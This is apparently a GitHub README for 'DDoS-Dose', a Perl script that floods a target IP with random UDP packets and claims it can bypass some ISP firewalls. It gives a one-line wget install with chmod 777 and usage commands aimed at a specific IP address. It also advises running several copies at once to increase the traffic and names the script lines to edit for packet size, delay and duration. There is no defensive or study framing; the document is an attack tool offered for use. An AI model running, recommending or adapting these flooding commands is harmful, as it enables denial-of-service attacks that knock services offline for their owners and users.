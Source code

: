 # Script for DDoS-Dose ! 

## Features

- Generate Random UDP Traffic
- To Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl

## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp-string%20%7C%20ID%3AA2/random-udp-string.pl && chmod 777 * && apt update -y && apt install perl -y
```

## Usage

```
perl random-udp-string.pl 162.241.27.65
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65
---> Multithreading Causing Issue
```
```
- This script pre-configured to send traffic to random port, (Line69) Can be Changed!
- This script pre-configured to send traffic with some delay between packet, (Line74) Can be Changed!
- This script pre-configured to send random packet size, (Line68), Can be changed!
- Can adjust time by "timeout 30" command or check (Line58)
```

## Related

want to pass the Target IP, Packet Size, Packet Count in Command Line

[Click Here for that Script](https://github.com/cyberceros/)

## Authors

- [@cyberceros](https://www.github.com/cyberceros)

## Feedback

If you have any feedback, please reach out to us at n@dultr.in






